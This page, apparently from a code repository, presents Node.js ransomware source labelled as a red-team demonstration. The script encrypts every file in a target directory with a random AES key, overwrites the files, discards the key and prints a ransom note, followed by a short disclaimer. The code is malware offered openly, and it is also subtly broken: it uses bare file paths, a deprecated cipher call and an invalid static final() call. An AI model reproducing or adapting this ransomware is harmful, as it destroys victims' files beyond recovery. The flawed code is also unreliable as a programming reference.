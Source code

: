 # Ransomware code in JavaScript
##### RedTeam - Technics
(for-demonstration-purposes-only to understand the technic behind.
```
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g
`;

console.log(ransomNote);

```
Please note that creating or using ransomware is illegal and unethical. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.
